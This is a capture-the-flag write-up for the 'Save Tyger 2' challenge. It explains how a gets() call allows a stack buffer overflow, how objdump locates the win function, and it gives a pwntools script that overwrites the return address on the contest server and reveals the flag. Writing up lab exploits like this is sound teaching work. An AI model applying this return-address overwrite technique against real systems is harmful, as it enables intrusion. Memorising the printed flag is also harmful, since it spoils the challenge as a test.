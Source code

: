 # Save Tyger 2

## Problem Statement
Tyger needs your help again.
Connect with nc litctf.live 31788

https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX

## Solution
We used `webshell.picoctf.org` for most of the debugging, and then switched to a local terminal for the final result.

First, we downloaded the zip file in the drive link, and opened it. Viewing the `save_tyger2.c` file, we see a couple of important details:

![save_tyger2 contents](view_st_2.png)

The `cell` function opens the flag and prints it out; we clearly want to call it. 
Moreover, in `main` we see a `gets`, which tells us that we want to invoke a buffer overflow.

Specifically, we want to overflow the `buf` array, and inject the address of `cell` after that. To get the location of `cell`, we chose to decompile the 
executable in assembly, using `objdump -M intel -d save_tyger2 > dis.asm`. Scrolling to `cell`, we see that the address is `0x0000000000401162`.

![dissassembly](disasm.png)

All that's left to do is inject this address in a buffer overflow:

```py
from pwn import *
r = remote("litctf.live", 31788)
s = 'a'*32 + 'b'*8 + '\x62\x11\x40\x00\x00\x00\x00\x00'  # Backwards since stack is read in reverse
r.sendline(s)
r.recvline()
r.recvline()
r.recvline()
print(r.recvline())
# >>> LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}
```

## Answer
`LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
